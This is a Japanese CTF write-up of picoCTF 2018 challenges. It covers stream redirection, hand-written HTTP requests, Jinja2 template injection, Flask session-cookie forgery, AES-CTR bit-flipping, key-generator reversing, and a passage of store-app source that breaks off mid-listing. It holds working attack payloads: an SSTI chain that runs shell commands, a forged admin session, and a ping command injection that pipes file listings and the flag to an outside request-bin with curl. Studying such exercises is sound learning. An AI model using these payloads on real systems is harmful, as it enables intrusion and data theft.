nYgo_u4r3 7hbe5acr8t8'}sp ibceoeCnT Fa{cph1ipn1gn,g _b1uSt_
4Y_o7uh'1rneg _t4o3o7 bs5hcy8 8t}op iscaoyC TiFt{
pI1nps1indge_,1 Sw_e4 _b7oht1hn gk_n4o3w7 bw5hca8t8'}sp ibceoeCnT Fg{opi1npg1 nogn_
1WSe_ 4k_n7ohw1 ntgh_e4 3g7abm5ec 8a8n}dp iwceo'CrTeF {gpo1npn1an gp_l1aSy_ 4i_t7
h
1In gj_u4s3t7 bw5acn8n8a} ptieclolC TyFo{up 1hpo1wn gI_'1mS _f4e_e7lhi1nngg
_G4o3t7tba5 cm8a8k}ep iycoouC TuFn{dpe1rps1tnagn_d1
S
_N4e_v7ehr1 nggo_n4n3a7 bg5icv8e8 }ypoiuc ouCpT
FN{epv1epr1 nggo_n1nSa_ 4l_e7th 1ynogu_ 4d3o7wbn5
cN8e8v}epri cgooCnTnFa{ pr1upn1 nagr_o1uSn_d4 _a7nhd1 ndge_s4e3r7tb 5yco8u8
}NpeivceorC TgFo{npn1ap 1mnagk_e1 Sy_o4u_ 7chr1yn
gN_e4v3e7rb 5gco8n8n}ap iscaoyC TgFo{opd1bpy1en
gN_e1vSe_r4 _g7ohn1nnag _t4e3l7lb 5ac 8l8i}ep iacnodC ThFu{rpt1 py1onug
_
1NSe_v4e_r7 hg1onngn_a4 3g7ibv5ec 8y8o}up iucpo
CNTeFv{epr1 pg1onngn_a1 Sl_e4t_ 7yho1un gd_o4w3n7
bN5ecv8e8r} pgiocnonCaT Fr{upn1 pa1rnogu_n1dS _a4n_d7 hd1ensge_r4t3 7ybo5uc
8N8e}vpeirc ogCoTnFn{ap 1mpa1kneg _y1oSu_ 4c_r7yh
1Nnegv_e4r3 7gbo5ncn8a8 }spaiyc ogCoToFd{bpy1ep
1Nnegv_e1rS _g4o_n7nha1 ntge_l4l3 7ab 5lci8e8 }apnidc ohCuTrFt{ py1opu1
n
gN_e1vSe_r4 _g7ohn1nnag _g4i3v7eb 5yco8u8 }uppi
cNoeCvTeFr{ pg1opn1nnag _l1eSt_ 4y_o7uh 1dnogw_n4
3N7ebv5ecr8 8g}opnincao CrTuFn{ pa1rpo1unngd_ 1aSn_d4 _d7ehs1enrgt_ 4y3o7ub
5Nce8v8e}rp igcoonCnTaF {mpa1kpe1 nygo_u1 Sc_r4y_
7Nhe1vnegr_ 4g3o7nbn5ac 8s8a}yp igcoooCdTbFy{ep
1Npe1vnegr_ 1gSo_n4n_a7 ht1enlgl_ 4a3 7lbi5ec 8a8n}dp ihcuorCtT Fy{opu1
p
```

</details>

しかしひねくれている作問者は、標準エラー出力にフラグを、標準入力に謎の文字列を同時に出力してくる。そのせいで、ごちゃ混ぜになってフラグを読み取れない。
そこで、標準出力だけをリダイレクトしてやればいい。

<details><summary>shell</summary>

```
m1kit@pico-2018-shell-2:/problems/in-out-error_3_censored$ echo 'Please may I have the flag?' | ./in-out-error > /dev/null
picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}picoCTF{p1p
```

</details>

ちなみに、エラー出力だけ捨てると以下のようになる。

<details><summary>shell</summary>

```
m1kit@pico-2018-shell-2:/problems/in-out-error_3_censored$ echo 'Please may I have the flag?' | ./in-out-error 2> /dev/null
Hey There!
If you want the flag you have to ask nicely for it.
Enter the phrase "Please may I have the flag?" into stdin and you shall receive.
Thank you for asking so nicely!

We're no strangers to love
You know the rules and so do I
A full commitment's what I'm thinking of
You wouldn't get this from any other guy

I just wanna tell you how I'm feeling
Gotta make you understand

Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you

We've known each other for so long
Your heart's been aching, but
You're too shy to say it
Inside, we both know what's been going on
We know the game and we're gonna play it

And if you ask me how I'm feeling
Don't tell me you're too blind to see

Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you

Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you
(Ooh, give you up)
(Ooh, give you up)
Never gonna give, never gonna give
(Give you up)
Never gonna give, never gonna give
(Give you up)

We've known each other for so long
Your heart's been aching, but
You're too shy to say it
Inside, we both know what's been going on
We know the game and we're gonna play it

I just wanna tell you how I'm feeling
Gotta make you understand

Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you

Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you

Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you
```

</details>

`Never Gonna Give You Up`、良い曲ですがpicoCTF2018のせいでトラウマになりそうですね

`picoCTF{p1p1ng_1S_4_7h1ng_437b5c88}`

# Artisinal Handcrafted HTTP 3
Writeupを書こうとしている今現在、問題のサーバーに接続できなくなっているので詳細な解説は省略しますが、要するにHTTPの仕様に沿ってヘッダ等を手書きせよという問題でした。
取り敢えず、対象のサーバーに`GET`リクエストを送信します。
```
GET http://flag.local/ HTTP/1.1
Host: flag.local
```

その後、ログインページが判明するので、問題文で与えられているユーザー名とパスワードで`POST`リクエストを送信しましょう。
```
POST http://flag.local/login HTTP/1.1
Host: flag.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

user=realbusinessuser&pass=potoooooooo
```

結果としてセッションが発行されるので、そのセッションを利用して再びトップページに`GET`リクエストを送信します。
```
GET http://flag.local/ HTTP/1.1
Host: flag.local
Cookie: real_business_token=PHNjcmlwdD5hbGVydCgid2F0Iik8L3NjcmlwdD4%3D;
```

これでフラグが出力されたはずです。

# Flaskcards
問題として自由に会員登録を行えるWebサイトが与えられます。会員登録を行うと、自由に「カード」が作れるようになります。


最初はSQLiを疑ったのですが、どうもSQLi脆弱性は存在しなさそうです。色々と調べてみると、このサイトが利用している`Flask`というフレームワークでよく用いられる`Jinja2`というテンプレートエンジンにサーバーサイドテンプレートインジェクション攻撃(SSTI)が通るという脆弱性が存在するようです。実際のところ、上の画像のようにカードを作ると`{{}}`がテンプレートへの変数埋め込みと解釈されt以下のような表示になります。


では、`{{config}}`という文字列をインジェクトするとフレームワークが持っている`config`変数の内容が覗けそうですね！ 以下が実際に出てきた文字列です。

```
Question:<Config {'SQLALCHEMY_POOL_SIZE': None, 'TESTING': False, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SESSION_COOKIE_PATH': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'DEBUG': False, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'MAX_CONTENT_LENGTH': None, 'SECRET_KEY': 'picoCTF{secret_keys_to_the_kingdom_8f40629c}', 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'BOOTSTRAP_CDN_FORCE_SSL': False, 'SQLALCHEMY_POOL_RECYCLE': None, 'TEMPLATES_AUTO_RELOAD': None, 'SQLALCHEMY_BINDS': None, 'SERVER_NAME': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'USE_X_SENDFILE': False, 'SESSION_COOKIE_NAME': 'session', 'SQLALCHEMY_RECORD_QUERIES': None, 'SESSION_COOKIE_DOMAIN': False, 'JSONIFY_MIMETYPE': 'application/json', 'TRAP_BAD_REQUEST_ERRORS': None, 'SESSION_COOKIE_SAMESITE': None, 'ENV': 'production', 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'BOOTSTRAP_SERVE_LOCAL': False, 'SQLALCHEMY_DATABASE_URI': 'sqlite://', 'SESSION_COOKIE_HTTPONLY': True, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'JSON_SORT_KEYS': True, 'BOOTSTRAP_LOCAL_SUBDOMAIN': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'TRAP_HTTP_EXCEPTIONS': False, 'APPLICATION_ROOT': '/', 'SQLALCHEMY_MAX_OVERFLOW': None, 'SESSION_COOKIE_SECURE': False, 'MAX_COOKIE_SIZE': 4093, 'PROPAGATE_EXCEPTIONS': None, 'BOOTSTRAP_USE_MINIFIED': True, 'EXPLAIN_TEMPLATE_LOADING': False}>
```

おやっ、こんなところにフラグが！

`picoCTF{secret_keys_to_the_kingdom_8f40629c}`

# Flaskcards Skeleton Key
さて、先ほど我々が`config`で目にした`SECRET_KEY`だが、今回は`385c16dd09098b011d0086f9e218a0a2`であると問題文で示されている。では、この`SECRET_KEY`は一体何をするものなのだろうか...その謎を解明すべく我々は[githubの奥地](385c16dd09098b011d0086f9e218a0a2)へと向かった。

結論から言うと`itsdangerous`と言うライブラリの`URLSafeTimedSerializer`における暗号化のキーとのことだ。

<details><summary>python</summary>

```python
from flask.helpers import is_ip, total_seconds
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import BadSignature, URLSafeTimedSerializer
import hashlib

session_json_serializer = TaggedJSONSerializer()
salt = 'cookie-session'
digest_method = hashlib.sha1
key_derivation = 'hmac'
serializer = session_json_serializer
signer_kwargs = dict(
    key_derivation=key_derivation,
    digest_method=digest_method
)
secret_key = '385c16dd09098b011d0086f9e218a0a2'
s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

val = ".eJwlj1tqAzEMAO_i73zIelhyLrNYWomGQAu7yVfp3bPQAwwz89u2OvL8avfX8c5b2x57uzcr3j06u4bkstVFYE6oADfSLjRFuGPRUhXpkc7Bg23sDB04YdRUp1xdpRzQpC-cEtNGD2T0iZkQATu5MCwe5SoLJJCQ3NqtxXnU9vp55vfVQ46mVF4gSBZ5yQsMrrChOLXWwl0E18W9zzz-J6T9fQDwdz1M.DpPKEw.Sfnaq6YpICDR-NvxiAG5ZUM5EOI"
data = s.loads(val)
print(data)
```

</details>

これで復号化ができる。平文は
```
{'_fresh': True, '_id': '8f4dbc14b7c5ea8a1550990fc0b837153955412f3a77551ceb4c46486d40104e06f97b3ea175fb02851a295c9861c242b92ee0cc0d3b540a46fb75a05c2323b8', 'csrf_token': '3b2873fbf05238ce541f0808a167297faa2d552a', 'user_id': '1'}
```
と言う形式らしい。これを暗号化すると管理者のセッションが生成できそうだ。

<details><summary>python</summary>

```python
from flask.helpers import is_ip, total_seconds
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import BadSignature, URLSafeTimedSerializer
import hashlib

session_json_serializer = TaggedJSONSerializer()
salt = 'cookie-session'
digest_method = hashlib.sha1
key_derivation = 'hmac'
serializer = session_json_serializer
signer_kwargs = dict(
    key_derivation=key_derivation,
    digest_method=digest_method
)
secret_key = '385c16dd09098b011d0086f9e218a0a2'
s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

# Encrypt
val = {'_fresh': True, '_id': '8f4dbc14b7c5ea8a1550990fc0b837153955412f3a77551ceb4c46486d40104e06f97b3ea175fb02851a295c9861c242b92ee0cc0d3b540a46fb75a05c2323b8', 'csrf_token': '3b2873fbf05238ce541f0808a167297faa2d552a', 'user_id': '1'}
data = s.dumps(val)
print(data)
```

</details>

このセッションを入れてAdminページにアクセスすると


`picoCTF{1_id_to_rule_them_all_d77c1ed6}`

# Flaskcards and Freedom
事件はここで起きた...

SQLiで他のユーザーのカードの一覧を見ていたら、この問題の解法である
```
{{''.__class__.__mro__[1].__subclasses__()[31].__init__.__globals__['sys'].modules['os'].__dict__['popen']('cat flag').read() }}
```
と言うSSTIが表示されてしまったのだ。こんなことあって良いんだろうか...

# eleCTRic
あるサービス上にフラグがアップロードされているらしい。取り敢えずソースコードを読む。

<details><summary>python</summary>

```python
#!/usr/bin/python

from Crypto import Random
from Crypto.Cipher import AES
import sys
import time
import binascii


class AESCipher(object):
    def __init__(self):
        self.bs = 32
        random = Random.new()
        self.key = random.read(AES.block_size)
        self.ctr = random.read(AES.block_size)

    def encrypt(self, raw):
        cipher = AES.new(self.key, AES.MODE_CTR, counter=lambda: self.ctr)
        return cipher.encrypt(raw).encode('base64').replace('\n', '')

    def decrypt(self, enc):
        try:
            enc = enc.decode('base64')
        except binascii.Error:
            return None
        cipher = AES.new(self.key, AES.MODE_CTR, counter=lambda: self.ctr)
        return cipher.decrypt(enc)

class Unbuffered(object):
    def __init__(self, stream):
        self.stream = stream
    def write(self, data):
        self.stream.write(data)
        self.stream.flush()
    def writelines(self, datas):
        self.stream.writelines(datas)
        self.stream.flush()
    def __getattr__(self, attr):
        return getattr(self.stream, attr)
    
sys.stdout = Unbuffered(sys.stdout)
    
def get_flag():
    try:
        with open("flag.txt") as f:
            return f.read().strip()
    except IOError:
        return "picoCTF{xxxFAKEFLAGxxx} Something went wrong. Contact organizers."
    
def welcome():
    print "Welcome to eleCTRic Ltd's Safe Crypto Storage"
    print "---------------------------------------------"


def menu():
    print ""
    print "Choices:"
    print "  E[n]crypt and store file"
    print "  D[e]crypt file"
    print "  L[i]st files"
    print "  E[x]it"
    while True:
        choice = raw_input("Please choose: ")
        if choice in list('neix'):
            print ""
            return choice


def do_encrypt(aes, files):
    filename = raw_input("Name of file? ")
    if any(x in filename for x in '._/\\ '):
        print "Disallowed characters"
        return
    filename += '.txt'
    if filename in files:
        if raw_input("Clobber previously existing file? [yN] ") != 'y':
            return
    data = raw_input("Data? ")
    files[filename] = aes.encrypt(data)
    print "Share code:"
    print aes.encrypt(filename)


def do_decrypt(aes, files):
    enc = raw_input("Share code? ")
    filename = aes.decrypt(enc)
    if filename is None:
        print "Invalid share code"
        return
    if filename in files:
        print "Data: "
        print aes.decrypt(files[filename])
    else:
        print "Could not find file"
        return


def do_list_files(files):
    print "Files:"
    for f in files:
        print "  " + f


def main():
    print "Initializing Problem..."
    aes = AESCipher()
    flag = get_flag()
    flag_file_name = "flag_%s" % Random.new().read(10).encode('hex')

    files = {flag_file_name + ".txt": aes.encrypt(flag)}

    welcome()
    while True:
        choice = menu()
        if choice == 'n':       # Encrypt
            do_encrypt(aes, files)
        elif choice == 'e':     # Decrypt
            do_decrypt(aes, files)
        elif choice == 'i':     # List files
            do_list_files(files)
        elif choice == 'x':     # Exit
            break
        else:
            print "Impossible! Contact contest admins."
            sys.exit(1)


main()
```

</details>

要するに、このプログラムはファイル名を秘密鍵で暗号化してbase64エンコードした「シェアコード」が渡された場合にのみそのファイルの内容を表示してくれるようだ。一方で、ユーザーはファイル名をある制限下で自由に決めてアップロードすることができ、アップロードした際にそのファイルに対するシェアコードを得ることができる。但し今回フラグのファイル名が`flag_b219a23be7c593e7c594.txt`という名前になっていた。この中に含まれる`_`が特殊文字として扱われるので、ユーザー側では`_`を含むファイルをアップロードできない。

もう少しソースコードを見てみると、`cipher = AES.new(self.key, AES.MODE_CTR, counter=lambda: self.ctr)`という記述が気になった。[CTRモードでAES暗号を行う際にはカウンターという値をインクリメントしていくべきなのだが](https://qiita.com/asksaito/items/130863fe9e6a08dcd65d)、カウンターが固定されている。これが一種の脆弱性に繋がっているのだろうと思われる。このサイトをよく見ると、平文は暗号文とキーやカウンタ等からなる鍵をXORして得られるということがわかる。即ち、暗号文のビットが反転すると対応する平文のビットも反転するという性質がある。これを上手く使えば`flag_b219a23be7c593e7c594.txt`に対応するシェアコードが得られそうだ。

まず、`_`の最下位ビットを反転させた`^`を`_`の代わりに用いて、`flag^b219a23be7c593e7c594.txt`というファイルのシェアコードを得る。シェアコードは`dx3V/v86w7St2DFN2WI9jiRIh/yWO8S8oJd3Bs8=`であったが、base64エンコードをデコードすれば以下のようになる。

`77 1d d5 fe ff 3a c3 b4 ad d8 31 4d d9 62 3d 8e 24 48 87 fc 96 3b c4 bc a0 97 77 06 cf`

この5文字目にあたる`ff`の最下位ビットを反転させて、`fe`に書き換え、再度base64エンコードを行う。

`77 1d d5 fe fe 3a c3 b4 ad d8 31 4d d9 62 3d 8e 24 48 87 fc 96 3b c4 bc a0 97 77 06 cf`

`dx3V/v46w7St2DFN2WI9jiRIh/yWO8S8oJd3Bs8=`

これをシェアコードとして入力すれば、`flag_b219a23be7c593e7c594.txt`が復号され、フラグを得ることができる。

<details><summary>shell</summary>

```
Please choose: [mikit@mikitpro Downloads]$ nc 2018shell2.picoctf.com 56215
Initializing Problem...
Welcome to eleCTRic Ltd's Safe Crypto Storage
---------------------------------------------

Choices:
  E[n]crypt and store file
  D[e]crypt file
  L[i]st files
  E[x]it
Please choose: i

Files:
  flag_b219a23be7c593e7c594.txt

Choices:
  E[n]crypt and store file
  D[e]crypt file
  L[i]st files
  E[x]it
Please choose: n

Name of file? flag^b219a23be7c593e7c594
Data? meow
Share code:
dx3V/v86w7St2DFN2WI9jiRIh/yWO8S8oJd3Bs8=

Choices:
  E[n]crypt and store file
  D[e]crypt file
  L[i]st files
  E[x]it
Please choose: e

Share code? dx3V/v46w7St2DFN2WI9jiRIh/yWO8S8oJd3Bs8=
Data: 
picoCTF{alw4ys_4lways_Always_check_int3grity_c469e9ba}

Choices:
  E[n]crypt and store file
  D[e]crypt file
  L[i]st files
  E[x]it
Please choose: x
```

</details>

`picoCTF{alw4ys_4lways_Always_check_int3grity_c469e9ba}`

# fancy-alive-monitoring
指定のIPに対してpingを打ってくれるWebサービスが与えられるので、その脆弱性を突く。

<details><summary>php</summary>

```php
<html>
<head>
	<title>Monitoring Tool</title>
	<script>
	function check(){
		ip = document.getElementById("ip").value;
		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
		if (!chk) {
			alert("Wrong IP format.");
			return false;
		} else {
			document.getElementById("monitor").submit();
		}
	}
	</script>
</head>
<body>
	<h1>Monitoring Tool ver 0.1</h1>
	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
	<p> Input IP address of the target host
	<input id="ip" name="ip" type="text">
	</p>
	<input type="button" value="Go!" onclick="check()">
	</form>
	<hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
	// super fancy regex check!
	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
		exec('ping -c 1 '.$ip, $cmd_result);
		foreach($cmd_result as $str){
			if (strpos($str, '100% packet loss') !== false){
				printf("<h3>Target is NOT alive.</h3>");
				break;
			} else if (strpos($str, ', 0% packet loss') !== false){
				printf("<h3>Target is alive.</h3>");
				break;
			}
		}
	} else {
		echo "Wrong IP Format.";
	}
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>
```

</details>

ソースコードを読むと、入力のIPアドレスに対してクライアントとサーバーの両方で正規表現によるチェックを行っていることがわかる。しかし、両者で微妙な違いが存在し、最も大きい違いとしてはサーバーサイドでは文字列の末尾にマッチする`$`文字が抜けているというものがあった。クライアントサイドのチェックはこちらで解除できるので、実質的にこれは入力のIPの末尾に好きな文字列を付加できるということになる。取り敢えず以下のコードをターミナルで実行してクライアントサイドのバリデーションを解除する。
```js
check = function() {
    document.getElementById("monitor").submit();
}
```

さて、phpのコードを読むと入力のIPは`exec('ping -c 1 '.$ip, $cmd_result);`によって調理されている。つまり、`ping`コマンドになんのエスケープもなしに末尾に付加されているということだから、`;`で複文を作れば任意のコマンドが実行できることになる。但し、実行結果は直接表示されるわけではないので、一工夫入れてやらないといけない。僕は取り敢えずpostbinを建てて、コマンドの結果を`curl`で送信させた。


まずは`ls`の結果を送信。そのままだと上手くいかなかったので`base64`をかませている。


`1.1.1.1;echo ``ls``|base64|curl --data-binary @- http://postb.in/p8pQDcyO`
```
index.php
index.txt 
the-secret-1065-flag.txt
xinet_startup.sh
```

明らかに怪しい`the-secret-1065-flag.txt`の中身を`cat`する。


`1.1.1.1;echo ``cat the-secret-1065-flag.txt``|base64|curl --data-binary @- http://postb.in/p8pQDcyO`

```
Here is your flag: picoCTF{n3v3r_trust_a_b0x_91345b04}
```

# keygen-me-1
Reversingは専門外と言いながら早3問。またしてもJavaに翻訳する。

<details><summary>java</summary>

```java
public class Translation {

    public static void main(String[] args) {
        String key = "1234567890abcdef";
        int t = 0;
        for (int i = 0; key.length() - 1 > i; i++) {
            t += (i + 1) * (ord(key.charAt(i)) + 1);
        }
        int last = ord(key.charAt(key.length() - 1));

        boolean valid = last == t - ((hidword(t * 0x38e38e39L) >> 3 << 3) + (hidword(t * 0x38e38e39L) >> 3 << 2));
    }

    private static int ord(char c) {
        if ('0' <= c && c <= '9') {
            return c - '0';
        } else if ('A' <= c && c <= 'Z') {
            return c - '7';
        } else {
            throw new RuntimeException("Invalid character");
        }
    }

    private static int hidword(long v) {
        return (int) ((v & 0xFFFFFFFF00000000L) >>> 32);
    }
}
```

</details>

これは一体何をしているのか理解するのは難しいが、取り敢えず`valid`が最後の1文字に大きく依存しており、そして最後の1文字として正当な文字はアルファベット大文字と数字の合計36文字だけであることはわかる。なので、取り敢えず総当たりで最後の文字を変えていけば良い。

僕の場合は、プロダクトコードとして`000000000000000C`が正当であるとわかった。
```
m1kit@pico-2018-shell-2:/problems/keygen-me-1_2_censored$ ./activate 000000000000000C
Product Activated Successfully: picoCTF{k3yg3n5_4r3_s0_s1mp13_1295245566}
```

# keygen-me-2
もはやReversing問題をJavaに翻訳する職人となったので、今回も翻訳した。だるかった。

<details><summary>java</summary>

```java
public class KeygenMe2 {

    public static void main(String[] args) {
        String key = "0E6IW8BX07K0DDZ0";

        System.out.println('A' - '7');
        // key_constraint01
        {
            int b = ord(key.charAt(0));
            int a = ord(key.charAt(1));
            if (mod(a + b, 36) != 14) {
                return;
            }
        }
        System.out.println("01 OK");

        // key_constraint02
        {
            int b = ord(key.charAt(2));
            int a = ord(key.charAt(3));
            if (mod(a + b, 36) != 24) {
                return;
            }
        }
        System.out.println("02 OK");

        // key_constraint03
        {
            int b = ord(key.charAt(2));
            int a = ord(key.charAt(0));
            if (mod(b - a, 36) != 6) {
                return;
            }
        }
        System.out.println("03 OK");

        // key_constraint04
        {
            int b = ord(key.charAt(1)) + ord(key.charAt(3));
            int a = ord(key.charAt(5));
            if (mod(a + b, 36) != 4) {
                return;
            }
        }
        System.out.println("04 OK");

        // key_constraint05
        {
            int b = ord(key.charAt(2)) + ord(key.charAt(4));
            int a = ord(key.charAt(6));
            if (mod(a + b, 36) != 13) {
                return;
            }
        }
        System.out.println("05 OK");

        // key_constraint06
        {
            int b = ord(key.charAt(3)) + ord(key.charAt(4));
            int a = ord(key.charAt(5));
            if (mod(a + b, 36) != 22) {
                return;
            }
        }
        System.out.println("06 OK");

        // key_constraint07
        {
            int b = ord(key.charAt(6)) + ord(key.charAt(8));
            int a = ord(key.charAt(10));
            if (mod(a + b, 36) != 31) {
                return;
            }
        }
        System.out.println("07 OK");

        // key_constraint08
        {
            int b = ord(key.charAt(1)) + ord(key.charAt(4));
            int a = ord(key.charAt(7));
            if (mod(a + b, 36) != 7) {
                return;
            }
        }
        System.out.println("08 OK");

        // key_constraint09
        {
            int b = ord(key.charAt(9)) + ord(key.charAt(12));
            int a = ord(key.charAt(15));
            if (mod(a + b, 36) != 20) {
                return;
            }
        }
        System.out.println("09 OK");

        // key_constraint10
        {
            int b = ord(key.charAt(13)) + ord(key.charAt(14));
            int a = ord(key.charAt(15));
            if (mod(a + b, 36) != 12) {
                return;
            }
        }
        System.out.println("10 OK");

        // key_constraint11
        {
            int b = ord(key.charAt(8)) + ord(key.charAt(9));
            int a = ord(key.charAt(10));
            if (mod(a + b, 36) != 27) {
                return;
            }
        }
        System.out.println("11 OK");

        // key_constraint12
        {
            int b = ord(key.charAt(7)) + ord(key.charAt(12));
            int a = ord(key.charAt(13));
            if (mod(a + b, 36) != 23) {
                return;
            }
        }
        System.out.println("12 OK");
        System.out.println("VALID");
    }

    private static int ord(char c) {
        if ('0' <= c && c <= '9') {
            return c - '0';
        } else if ('A' <= c && c <= 'Z') {
            return c - 'A' + 10;
        } else {
            throw new RuntimeException("Invalid character");
        }
    }

    private static int mod(int a, int m) {
        a %= m;
        if (a < 0) {
            return a + m;
        } else {
            return a;
        }
    }
}
```

</details>

要するに、キーに対して12個の制約が存在し、それら全てを満たせば有効なプロダクトコードとして認識されるようだ。制約がもう少し厳しいと充足可能性問題とかそういう話になるのだが、取り敢えず今回は1文字目が`0`だという仮定の下条件を満たすように芋づる式に決定していけば、`0E6IW8BX07K0DDZ0`がプロダクトコードとして有効であるとわかる。

```
m1kit@pico-2018-shell-2:/problems/keygen-me-2_0_censored$ ./activate 0E6IW8BX07K0DDZ0
Product Activated Successfully: picoCTF{c0n5tr41nt_50lv1nG_15_W4y_f45t3r_783243818}
```

# store
ユーザーが残高を使って、偽フラグと本物のフラグを売っているお店で買い物をするプログラムに対して攻撃を行う。勿論、本物のフラグは当初の残高ではとても届かないような高額である。
取り敢えずソースを見てみよう。

<details><summary>c</summary>

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the Store App V1.0\n");
        printf("World's Most Secure Purchasing App\n");

        printf("\n[1] Check Account Balance\n");
        printf("\n[2] Buy Stuff\n");
        printf("\n[3] Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Current Auctions\n");
            printf("[1] I Can't Believe its not a Flag!\n");
            printf("[2] Real Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("Imitation Flags cost 1000 each, how many would you like?\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 1000*number_flags;
                    printf("\nYour total cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour new balance: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds\n");
                    }
                                    
                    
                }
                    
                    
                    
                
            }
            else if(auction_choice == 2){
                printf("A genuine Flag costs 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to purchase");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        printf("YOUR FLAG IS:\n");
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}

            }
        }
        else{
